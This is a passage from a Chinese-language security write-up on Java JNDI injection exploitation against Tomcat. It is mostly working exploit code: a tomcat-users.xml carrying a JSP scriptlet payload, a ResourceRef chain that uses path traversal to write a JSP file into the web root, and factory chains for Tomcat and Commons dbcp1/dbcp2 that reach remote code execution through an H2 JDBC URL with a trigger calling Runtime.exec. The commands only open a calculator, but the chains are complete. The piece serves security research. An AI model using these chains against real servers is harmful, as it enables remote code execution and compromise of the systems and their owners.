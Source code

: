 ```xml  
&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;  
&lt;tomcat-users xmlns=&#34;http://tomcat.apache.org/xml&#34;  
              xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;  
              xsi:schemaLocation=&#34;http://tomcat.apache.org/xml tomcat-users.xsd&#34;  
              version=&#34;1.0&#34;&gt;  
  &lt;role rolename=&#34;&amp;#x3c;%Runtime.getRuntime().exec(&amp;#x22;/System/Applications/Calculator.app/Contents/MacOS/Calculator&amp;#x22;); %&amp;#x3e;&#34;/&gt;  
&lt;/tomcat-users&gt;  
```  
`ResourceRef`对象就可以把`test.jsp`写入到`web`目录。  
```java  
private static ResourceRef tomcatWriteFile() {  
    ResourceRef ref = new ResourceRef(&#34;org.apache.catalina.UserDatabase&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.catalina.users.MemoryUserDatabaseFactory&#34;, null);  
    ref.add(new StringRefAddr(&#34;pathname&#34;, &#34;http://127.0.0.1:8888/../../webapps/ROOT/test.jsp&#34;));  
    ref.add(new StringRefAddr(&#34;readonly&#34;, &#34;false&#34;));  
    return ref;  
}  
```  
## 0x03 JDBC RCE  
### dbcp  
dbcp分为dbcp1和dbcp2，同时又分为`commons-dbcp`和`Tomcat`自带的`dbcp`  
进入 `org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory#configureDataSource`方法最后一段代码写了当 InitialSize &gt; 0 的时候会调用 getLogWriter 方法  
```java  
public PrintWriter getLogWriter() throws SQLException {  
    return this.createDataSource().getLogWriter();  
}  
```  
其中`getLogWriter`会先调用`createDataSource()`创建数据库连接。  
```java  
private static Reference tomcat_dbcp2_RCE(){  
    return dbcpByFactory(&#34;org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory&#34;);  
}  
private static Reference tomcat_dbcp1_RCE(){  
    return dbcpByFactory(&#34;org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory&#34;);  
}  
private static Reference commons_dbcp2_RCE(){  
    return dbcpByFactory(&#34;org.apache.commons.dbcp2.BasicDataSourceFactory&#34;);  
}  
private static Reference commons_dbcp1_RCE(){  
    return dbcpByFactory(&#34;org.apache.commons.dbcp.BasicDataSourceFactory&#34;);  
}  
private static Reference dbcpByFactory(String factory){  
    Reference ref = new Reference(&#34;javax.sql.DataSource&#34;,factory,null);  
    String JDBC_URL = &#34;jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n&#34; &#43;  
            &#34;INFORMATION_SCHEMA.TABLES AS $$//javascript\n&#34; &#43;  
            &#34;java.lang.Runtime.getRuntime().exec(&#39;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#39;)\n&#34; &#43;  
            &#34;$$\n&#34;;  
    ref.add(new StringRefAddr(&#34;driverClassName&#34;,&#34;org.h2.Driver&#34;));  
    ref.add(new StringRefAddr(&#34;url&#34;,JDBC_URL));  
    ref.add(new StringRefAddr(&#34;username&#34;,&#34;root&#34;));  
    ref.add(new StringRefAddr(&#34;password&#34;,&#34;password&#34;));  
    ref.add(new StringRefAddr(&#34;initialSize&#34;,&#34;1&#34;));  
    return ref;  
}  
```  
直接打`JDBC`就可以  